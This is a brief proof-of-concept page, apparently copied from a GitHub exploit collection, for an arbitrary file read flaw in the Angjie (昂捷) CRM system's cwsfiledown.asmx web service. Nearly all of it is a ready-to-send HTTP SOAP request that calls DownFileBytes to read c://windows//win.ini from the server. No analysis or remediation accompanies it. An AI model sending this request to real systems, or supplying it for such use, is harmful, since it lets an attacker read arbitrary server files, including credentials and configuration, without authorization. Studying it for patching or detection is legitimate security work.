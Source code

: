 # ajcrm_cwsfiledown_fileread

from: https://github.com/wy876/POC/blob/main/%E6%98%82%E6%8D%B7ERP/%E6%98%82%E6%8D%B7CRM%E7%B3%BB%E7%BB%9Fcwsfiledown.asmx%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E.md
product: 昂捷CRM

```
POST /EnjoyRMIS_WS/WS/FileDown/cwsfiledown.asmx HTTP/1.1
Host: 
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/DownFileBytes"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <DownFileBytes xmlns="http://tempuri.org/">
      <sFileName>c://windows//win.ini</sFileName>
      <iPosition>1</iPosition>
      <iReadBytesLen>100</iReadBytesLen>
      <bReadBytes>ICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAg</bReadBytes>
    </DownFileBytes>
  </soap:Body>
</soap:Envelope>
```
